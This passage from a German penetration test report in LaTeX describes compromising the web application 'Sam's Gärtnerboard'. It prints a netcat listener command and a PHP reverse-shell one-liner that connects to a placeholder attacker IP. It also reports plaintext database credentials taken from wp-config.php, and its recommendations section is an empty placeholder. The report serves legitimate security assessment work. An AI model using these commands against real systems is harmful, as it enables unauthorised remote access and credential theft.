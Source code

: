 Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden.  Ein Nachweis ist in \autoref{fig:03_sam_proof} dargestellt.


\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/03_sam_proof.png}
    \caption{Proof für die Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_proof}
\end{figure}

\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sensitive Data Exposure}

\subsection*{Proof of concept}
Durch den zuvor erlangten administrativen Zugriff auf die Webanwendung \textit{Sams's Gärtnerboard} konnten die Zugangsdaten für den Zugriff auf die dazugehörige Datenbank erlangt werden. Diese sind in der Datei \texttt{wp-config.php} zu finden. Die Zugangsdaten liegen im Klartext vor und sind nicht verschlüsselt.

